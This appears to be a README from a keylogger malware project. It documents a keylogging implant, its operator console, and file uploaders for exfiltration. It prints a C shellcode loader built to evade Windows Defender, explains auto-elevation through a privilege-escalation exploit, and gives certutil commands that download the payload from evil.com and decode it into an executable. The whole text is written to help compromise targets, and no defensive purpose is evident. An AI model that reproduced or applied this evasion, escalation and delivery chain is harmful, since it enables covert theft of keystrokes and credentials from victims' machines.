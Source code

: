 ## Beta Development 

All files relevant to the development of this project can be found here. 

The directory structure is as follows.

```
└── Beta
    ├── archivist.py
    ├── assets
    │   ├── chroma.py
    │   ├── __init__.py
    │   ├── __init__.pyc
    │   ├── main.py
    │   ├── README.md
    │   ├── tests
    │   │   ├── __init__.py
    │   │   └── upload_test.py
    │   └── uploader
    │       ├── base.py
    │       ├── catbox.py
    │       ├── fileio.py
    │       ├── __init__.py
    │       ├── mixtape.py
    │       └── uguu.py
    ├── binary_to_hex.py
    ├── console.py
    ├── exploits
    │   ├── AV-Evasion
    │   │   ├── AVWinD.exe
    │   │   └── windefexe.c
    │   └── Priv-Esc
    │       ├── ExamplePayload
    │       │   ├── Payload.cpp
    │       │   ├── Payload.exe
    │       │   └── Readme.md
    │       ├── PerformanceMonitorVolatileEnvironmentLPE
    │       │   ├── c_cpp_properties.json
    │       │   ├── PerformanceMonitorVolatileEnvironmentLPE.cpp
    │       │   ├── PerformanceMonitorVolatileEnvironmentLPE.vcxproj
    │       │   └── PerformanceMonitorVolatileEnvironmentLPE.vcxproj.filters
    │       ├── PerformanceMonitorVolatileEnvironmentLPE.sln
    │       └── README.md
    ├── README.md
    └── Scripts
        ├── helper.bat
        ├── README.md
        ├── shell.py
        └── shell.vbs

```
### About

`archivist.py` Is the main keylogging implant.
`console.py` Will be Archivists handler, facilitating comms between the implant
and operator.

These files are in active development.

The `binary_to_hex.py` file is here because it will potentially be incorperated into the way the
keylogger is going to be deployed. If you go to the `exploits/AV-Evasion` directory in this repo there will be a C
file there the contents of which look a little like those  below.

```
#include <Windows.h>
#include <rc4.h>

// The encrypted code allows us to get around static scanning
unsigned char buf[] = 
"\x67\xc6\xe9\xe7\x07\x0a\x37\x3b\x63\xf0\xfd\x02\xc3\x23\xcd" // Truncated 
"\xf3\xbe\x80\x69\x18\x24\xb3\xf9\x96\x3e";		       // Truncated 


int main() {
  int lpBufSize = sizeof(int) * 700;
  LPVOID lpBuf = VirtualAlloc(NULL, lpBufSize, MEM_COMMIT, 0x00000040);
  memset(lpBuf, '\0', lpBufSize);

  HANDLE proc = OpenProcess(0x1F0FFF, false, 4);
  // Checking NULL allows us to get around Real-time protection
  if (proc == NULL) {
    RC4("vXJDRPBUBnXKFphOMNzDZTCjnpbYhYDIMPBoYGotFWsBegm", buf, (char*) lpBuf, 700);
    void (*func)();
    func = (void (*)()) lpBuf;
    (void)(*func)();
  }

  return 0;
}
```

The payload is represented by the shell code you can see above. This 
shell code can be replaced by custom shell code. Which is what we are going to 
do. 

Once the main logger file has been compiled we will use the `binary_to_hex.py`
script to get a representation of the binary data in hex/shell code. Running
`use windows/windows_defender_exe` in `msfconsole` and setting the payload, to
our custom shell code we will end up with an executable that will attempt to 
make it harder for Windows Defender to get in the way of our keylogging operations.

Of course the keylogger itself has some anti-forensic and AV evasion routines
itself but a little more might be helpful.


Also in the `exploits` directory can be found a C++ file and some related project files.
This is a privilege escalation exploit originally developed by Martin Fischer of Bytecode77.
Whom you can find on github by clicking [here](https://github.com/bytecode77) and
online over at his [website](https://bytecode77.com). (I suggest checking both out
he's got some really cool projects there.)

The exploit makes it so our binary keylogger file gets auto-elevated through Windows Volatile Environment and
perfmon.exe. 


On the question of how to get the malware to the target, i will leave that up
to your imagination. However `Magic Unicorn Attack Vector` by [Dave Kennedy](https://twitter.com/HackingDave)
from [TrustedSec](https://trustedsec.com) has the ability to encode a binary as cert file.

`python unicorn.py <path_to_payload/exe_encode> crt`

The beauty of this is that the `certutil` tool on Windows can be used to both download and
restore the encoded files back to `exe`. If you're able to run:

```
certutil -urlcache -split -f http://evil.com/keylogger.crt keylogger.crt
certutil -decode keylogger.crt keylogger.exe
```

Through remote code execution, or vector of your preference this would be a pretty effective way of delivering the malware.   
